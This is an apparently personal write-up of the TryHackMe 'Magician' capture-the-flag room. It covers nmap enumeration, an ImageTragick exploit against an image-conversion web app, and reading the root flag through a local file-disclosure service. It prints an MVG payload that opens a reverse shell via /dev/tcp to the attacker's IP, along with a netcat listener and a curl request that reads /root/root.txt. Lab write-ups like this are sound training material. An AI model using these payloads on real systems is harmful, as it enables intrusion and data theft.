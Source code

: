 ```yaml
---
title: "Magician TryHackMe"
date: "08-07-2021"
author: "Reda BELHAJ"
summary: "This magical website lets you convert image file formats, room from TryHackme reated by M0N573R777 and ripcurlz."
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Magician/bg.jpg"
---
```

Let’s take a look at the [Magician CTF](https://tryhackme.com/room/magician) on TryHackMe.
Let’s first add the hostname to our `/etc/hosts` file, as told in the room:

```
echo "10.10.244.57 magician" | sudo tee -a /etc/hosts
```

## Enumeration
### Nmap Scan
The first step of my enumeration was a nmap scan. by the command:

```
nmap -sC -sV -T4 -p- -oN nmapscan magician
```

```
PORT     STATE SERVICE    REASON         VERSION
21/tcp   open  ftp        syn-ack ttl 63 vsftpd 2.0.8 or later
8080/tcp open  http-proxy syn-ack ttl 63
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:35 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:35.319+0000","status":404,"error":"Not Found","message":"No message available","path":"/nice%20ports%2C/Tri%6Eity.txt%2ebak"}
|   GetRequest: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:34.270+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   HTTPOptions: 
|     HTTP/1.1 404 
|     Vary: Origin
|     Vary: Access-Control-Request-Method
|     Vary: Access-Control-Request-Headers
|     Content-Type: application/json
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     Connection: close
|     {"timestamp":"2021-08-06T21:15:34.678+0000","status":404,"error":"Not Found","message":"No message available","path":"/"}
|   RTSPRequest: 
|     HTTP/1.1 505 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 465
|     Date: Fri, 06 Aug 2021 21:15:34 GMT
|     <!doctype html><html lang="en"><head><title>HTTP Status 505 
|     HTTP Version Not Supported</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 505 
|_    HTTP Version Not Supported</h1></body></html>
|_http-title: Site doesn't have a title (application/json).
8081/tcp open  http       syn-ack ttl 63 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: CA4D0E532A1010F93901DFCB3A9FC682
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: magician
```
The “Nmap Output” displayed `3` services running under ports 21, 8080 and 8081.

## Exploring 
Navigating to the services:
- we got first a **FTP service** and I tried to connect to it as anonymous:
![FTP](/images/Magician/ftp.jpg)
- Browsing to http://magician:8080 we got a whitelabel error page and indicates that there's no explicit mapping for /error
- Browsing to http://magician:8081 we got a web application that let us convert image file formats and with the hint that we got from FTP:

```
The door just opens after some time? You're quite the patient one, aren't ya, it's a thing called 'delay_successful_login' in /etc/vsftpd.conf ;) Since you're a rookie, this might help you to get started: https://imagetragick.com. You might need to do some little tweaks though...
```

## Exploiting
After some research I've got a [github repo](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Picture%20Image%20Magik#exploit-v1) that let me  exploit the web app:

```
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/sh -i > /dev/tcp/10.8.174.180/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
```
![Payload](/images/Magician/payload.jpg)

Then I opened a netcat listener and upload the image:

```
nc -nlvp 4444
```

## User Flag
In our listener window, a reverse shell appears and I tried to upgrade NC shell with [Python](https://zsecure.uk/guides/upgrade-nc-shell-with-python-3/):

```
python -c 'import pty; pty.spawn("/bin/bash")'
```
And I got the flag :

```
THM{******************}
```

## Root Flag
For the root flag I was thinking a privilege escalation but the hint led to another path:

```
The magician is known to keep a locally listening cat up his sleeve, it is said to be an oracle who will tell you secrets if you are good enough to understand its meows.
```
So I checked the network connections with netstat command:

```
netstat -anp
```

![Netstat](/images/Magician/netstats.jpg)

So first I tried to access the source code of the web app in the port **6666** with curl command. Then I got a form and an input with the name and the id of `filename` so I tested the root flag file:

```
curl -X POST http://127.0.0.1:6666 -d "filename=/root/root.txt"
```

And I got a encoded data its seems like **ROT13** algorithm:

```
echo "GUZ{******************}" | tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
```

```
THM{******************}
```